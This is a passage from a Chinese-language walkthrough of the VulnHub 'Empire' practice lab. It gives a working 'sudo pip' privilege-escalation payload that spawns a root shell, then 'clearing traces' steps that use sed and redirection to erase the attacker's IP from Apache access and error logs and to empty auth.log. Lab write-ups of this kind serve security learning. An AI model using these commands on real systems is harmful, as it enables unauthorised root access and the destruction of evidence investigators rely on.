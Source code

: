 使用id查看后，权限不高，算是水平提权了吧

查找看有无都可使用的命令，发现有sudo后，使用命令`sudo -l`后，发现有`/usr/bin/pip`

![](D:\stu\vulnhub\empire靶场\pic\41.jpg)



ok，那就可以使用`sudo pip`提权

```shell
TF=$(mktemp -d) 
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py 
sudo pip install $TF
```

在终端上使用上面命令，提权成功

![](D:\stu\vulnhub\empire靶场\pic\42.jpg)



## 清除痕迹

清除痕迹的时候，可以先查看日志文件

日志文件大都在`/var/log`中

筛选与自己连接靶机的自己ip，然后从日志文件删除

```
sed -i '/ip/d' 日志文件
```

还是要root登录时进行清理，然后浏览器退出

首先因为访问了web页面，是`apache`的，并且访问了隐藏文件，所以还是要删除的

```
find / -name 'access*'
```

#### 删除apache的访问日志信息

该日志文件是`access.log`

查看有无kali连接的地址信息，使用`sed`删除有关kaili地址的信息

![](D:\stu\vulnhub\empire靶场\pic\43.jpg)

#### 删除apache的错误日志信息

该文件是`error.log`

![](D:\stu\vulnhub\empire靶场\pic\44.jpg)

#### 删除验证登录信息

该文件为`auth.log`，我这里因为之前爆破过，所以信息太多太杂，我直接把它重定向为空。实际中可能要观察文件内容，删除对应的。
